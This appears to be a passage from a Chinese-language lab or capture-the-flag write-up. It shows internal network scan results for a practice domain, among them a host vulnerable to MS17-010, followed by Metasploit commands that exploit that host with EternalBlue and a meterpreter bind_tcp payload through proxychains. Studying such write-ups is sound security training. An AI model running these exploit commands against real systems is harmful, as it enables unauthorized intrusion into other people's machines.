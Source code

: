 ```cmd
[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.24       状态码:302 长度:0      标题:无标题 重定向地址: http://172.22.15.24/www
[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.35    XIAORANG\XR-0687              
[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.13    DC:XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393
[2025-03-27 15:08:01] [SUCCESS] NetBios 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393
[2025-03-27 15:08:01] [SUCCESS] 发现漏洞 172.22.15.24 [Windows Server 2008 R2 Enterprise 7601 Service Pack 1] MS17-010
[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.26       状态码:200 长度:39962  标题:XIAORANG.LAB
[2025-03-27 15:08:01] [SUCCESS] 目标: http://172.22.15.18:80
  漏洞类型: poc-yaml-active-directory-certsrv-detect
  漏洞名称: 
  详细信息:
        author:AgeloVito
        links:https://www.cnblogs.com/EasonJim/p/6859345.html
[2025-03-27 15:08:01] [SUCCESS] 网站标题 http://172.22.15.24/www/sys/index.php 状态码:200 长度:135    标题:无标题
[2025-03-27 15:08:25] [SUCCESS] 扫描已完成: 35/35
```

扫出内网的四台机子

```
目标主机: 172.22.15.18
主机名: XR-CA

目标主机: 172.22.15.24
主机名: XR-WIN08

目标主机: 172.22.15.13
主机名: XR-DC01

目标主机: 172.22.15.35
主机名: XR-0687
```



172.22.15.24扫出来有MS17-010(永恒之蓝)漏洞

那直接用msf来打

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue  # 选择使用的模块
set payload windows/x64/meterpreter/bind_tcp  # 设置payload，可以通过show payloads查看
set RHOSTS 172.22.15.24  # 设置靶机的ip
exploit  # 发起攻击
```

![image-20250327163330064](../assets/image-20250327163330064-1748854959640-5.png)

打了好几次终于通了，但是msf的shell有点问题，用不了
